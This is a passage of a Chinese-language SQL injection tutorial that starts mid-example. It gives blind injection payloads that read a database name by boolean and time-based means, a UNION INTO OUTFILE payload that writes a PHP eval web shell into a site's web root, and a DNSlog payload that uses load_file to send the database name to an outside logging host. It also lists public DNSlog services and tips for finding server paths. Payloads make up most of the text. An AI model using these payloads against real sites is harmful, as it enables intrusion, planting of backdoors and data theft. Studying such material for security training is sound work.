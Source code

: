 ```
vince' and substr(database(),1,1)='p'#
```

### 时间型盲注

基于时间响应的盲注，无需数据回显。

观察响应时间判断是否有注入点
```
a'
a' or sleep(5)#
```

获取数据库长度
```
a' or if(length(database())<8,sleep(5),0)#
a' or if(length(database())=7,sleep(5),0)#
```

再尝试获取数据库的每个字母
```
a' or if(substr(database(),1,1)='a',sleep(5),0)#
a' or if(substr(database(),1,1)='p',sleep(5),0)#
```

## 写入木马程序

前提

- 知道php服务器的目录
  - 收集站点敏感目录，比如phpinfo.php探针文件是否可以访问到
  - 站点网址输入一些不存在的网址或者加一些非法参数数据，让网站报错，看错误信息中是否存在路径信息
  - 指纹信息收集
    - nginx，默认站点目录:/usr/share/nginx/html，配置文件路径:/etc/nginx/nginx.config
    - apache默认站点目录:/var/www/html
  - 通过站点其他漏洞来获取配置信息、真实物理路信息，比如如果发现远程命令执行漏洞(后面会讲到各种漏洞)，针对php的站点，直接执其行一个phpinfo()函数，可以看到phpinfo.php所展示的各种信息等等
  - 其他思路，反正就是不断的尝试。

- 数据库开启了`secure_file_priv`配置

```
' union select 1,"<?php @eval($_POST['qwert']);?>" into outfile "C:\\software\\phpstudy_pro\\WWW\\test.php"#
```

注入成功后可以使用浏览器访问`test.php`，之后可以通过[蚁剑](https://github.com/AntSwordProject/antSword)连接。

## DNSlog注入

通过mysql的`load_file`函数携带数据去访问远程的服务器，远程服务器将访问日志记录下来达到获取数据库信息的目的。

前提数据库要开启`secure_file_priv`配置，并且可以访问外网。

开启mysql配置。
```
[mysqld]
secure_file_priv=""
```

注入方式
```
and (select load_file(concat('//',database(),"远程服务器xxx.ceye.io")))#
```

可用的公网服务器：
- http://ceye.io  知道创宇
- http://www.dnslog.cn
- http://admin.dnslog.link


